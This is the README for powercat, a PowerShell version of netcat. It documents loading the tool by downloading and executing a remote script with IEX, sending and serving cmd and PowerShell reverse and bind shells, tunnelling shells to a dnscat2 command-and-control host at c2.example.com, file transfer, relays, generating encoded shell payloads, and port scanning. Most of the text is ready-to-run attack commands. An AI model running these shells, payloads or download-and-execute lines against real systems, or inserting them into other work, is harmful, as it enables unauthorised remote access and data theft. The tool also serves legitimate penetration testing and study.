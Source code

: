 powercat
========
Netcat: The powershell version. (Powershell Version 2 and Later Supported)

Installation
------------
powercat is a powershell function.  First you need to load the function before you can execute it.  You can put one of the below commands into your powershell profile so powercat is automatically loaded when powershell starts.
###
    Load The Function From Downloaded .ps1 File:
        . .\powercat.ps1
    Load The Function From URL:
        IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')

### Parameters:
    -l      Listen for a connection.                             [Switch]
    -c      Connect to a listener.                               [String]
    -p      The port to connect to, or listen on.                [String]
    -e      Execute. (GAPING_SECURITY_HOLE)                      [String]
    -ep     Execute Powershell.                                  [Switch]
    -r      Relay. Format: "-r tcp:10.1.1.1:443"                 [String]
    -u      Transfer data over UDP.                              [Switch]
    -dns    Transfer data over dns (dnscat2).                    [String]
    -dnsft  DNS Failure Threshold.                               [int32]
    -t      Timeout option. Default: 60                          [int32]
    -i      Input: Filepath (string), byte array, or string.     [object]
    -o      Console Output Type: "Host", "Bytes", or "String"    [String]
    -of     Output File Path.                                    [String]
    -d      Disconnect after connecting.                         [Switch]
    -rep    Repeater. Restart after disconnecting.               [Switch]
    -g      Generate Payload.                                    [Switch]
    -ge     Generate Encoded Payload.                            [Switch]
    -h      Print the help message.                              [Switch]

Basic Connections
-----------------------------------
By default, powercat reads input from the console and writes input to the console using write-host. You can change the output type to 'Bytes', or 'String' with -o.
###
    Basic Client:
        powercat -c 10.1.1.1 -p 443
    Basic Listener:
        powercat -l -p 8000
    Basic Client, Output as Bytes:
        powercat -c 10.1.1.1 -p 443 -o Bytes

File Transfer
-------------
powercat can be used to transfer files back and forth using -i (Input) and -of (Output File).
###
    Send File:
        powercat -c 10.1.1.1 -p 443 -i C:\inputfile
    Recieve File:
        powercat -l -p 8000 -of C:\inputfile

Shells
------
powercat can be used to send and serve shells. Specify an executable to -e, or use -ep to execute powershell.
###
    Serve a cmd Shell:
        powercat -l -p 443 -e cmd
    Send a cmd Shell:
        powercat -c 10.1.1.1 -p 443 -e cmd
    Serve a shell which executes powershell commands:
        powercat -l -p 443 -ep

DNS and UDP
-----------
powercat supports more than sending data over TCP. Specify -u to enable UDP Mode. Data can also be sent to a [dnscat2 server](https://github.com/iagox86/dnscat2) with -dns.
###
    Send Data Over UDP:
        powercat -c 10.1.1.1 -p 8000 -u
        powercat -l -p 8000 -u
    Connect to the c2.example.com dnscat2 server using the DNS server on 10.1.1.1:
        powercat -c 10.1.1.1 -p 53 -dns c2.example.com
    Send a shell to the c2.example.com dnscat2 server using the default DNS server in Windows:
        powercat -dns c2.example.com -e cmd

Relays
------
Relays in powercat work just like traditional netcat relays, but you don't have to create a file or start a second process. You can also relay data between connections of different protocols.
###
    TCP Listener to TCP Client Relay:
        powercat -l -p 8000 -r tcp:10.1.1.16:443
    TCP Listener to UDP Client Relay:
        powercat -l -p 8000 -r udp:10.1.1.16:53
    TCP Listener to DNS Client Relay
        powercat -l -p 8000 -r dns:10.1.1.1:53:c2.example.com
    TCP Listener to DNS Client Relay using the Windows Default DNS Server
        powercat -l -p 8000 -r dns:::c2.example.com
    TCP Client to Client Relay
        powercat -c 10.1.1.1 -p 9000 -r tcp:10.1.1.16:443
    TCP Listener to Listener Relay
        powercat -l -p 8000 -r tcp:9000

Generate Payloads
-----------------
Payloads which do a specific action can be generated using -g (Generate Payload) and -ge (Generate Encoded Payload). Encoded payloads can be executed with powershell -E. You can use these if you don't want to use all of powercat.
###
    Generate a reverse tcp payload which connects back to 10.1.1.15 port 443:
        powercat -c 10.1.1.15 -p 443 -e cmd -g
    Generate a bind tcp encoded command which listens on port 8000:
        powercat -l -p 8000 -e cmd -ge

Misc Usage
----------
powercat can also be used to perform portscans, and start persistent servers.
###
    Basic TCP Port Scanner:
        (21,22,80,443) | % {powercat -c 10.1.1.10 -p $_ -t 1 -Verbose -d}
    Start A Persistent Server That Serves a File:
        powercat -l -p 443 -i C:\inputfile -rep

